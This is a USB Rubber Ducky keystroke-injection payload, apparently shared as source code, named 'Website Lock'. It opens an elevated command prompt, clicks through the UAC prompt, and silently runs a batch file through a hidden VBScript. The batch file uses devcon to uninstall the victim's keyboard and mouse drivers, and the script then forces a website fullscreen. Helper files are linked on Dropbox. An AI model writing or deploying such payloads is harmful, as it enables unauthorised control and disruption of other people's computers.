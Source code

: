 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Code:
	REM Title: Website Lock
        REM Author: Audiack
	REM Target Ducky Encoder: 2.6.2
	REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
	REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
	REM Info:
	REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
	REM     This requires the user to plug a USB drive in with some extra files BEFORE the ducky is plugged in.
	REM     The files are here: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0.
	REM     Make sure the files are in the root of a drive called DUCKY.
	REM     Twin duck works well with this. It is what I used when I was testing it. 
	REM File Descriptions:
	REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
	REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
	REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
	REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.

	DELAY 3000
	CTRL ESC
	DELAY 700
	STRING cmd
	CTRL-SHIFT ENTER
	DELAY 3000
	ALT Y
	DELAY 700

	STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
	ENTER
	DELAY 1200
	STRING cd /d %myd%
	ENTER

	DELAY 1000
	STRING type "WebsiteLink.txt" | clip
	ENTER
	DELAY 100
	STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
	ENTER
	DELAY 400

	REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence line 20: 'type "WebsiteLink.txt" | clip'
	REM Title: Youtube Roller
	REM Author: Aprizm
	REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
	REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
	DELAY 200
	GUI r
	DELAY 200
	CTRL V
	ENTER
	DELAY 1000
	F11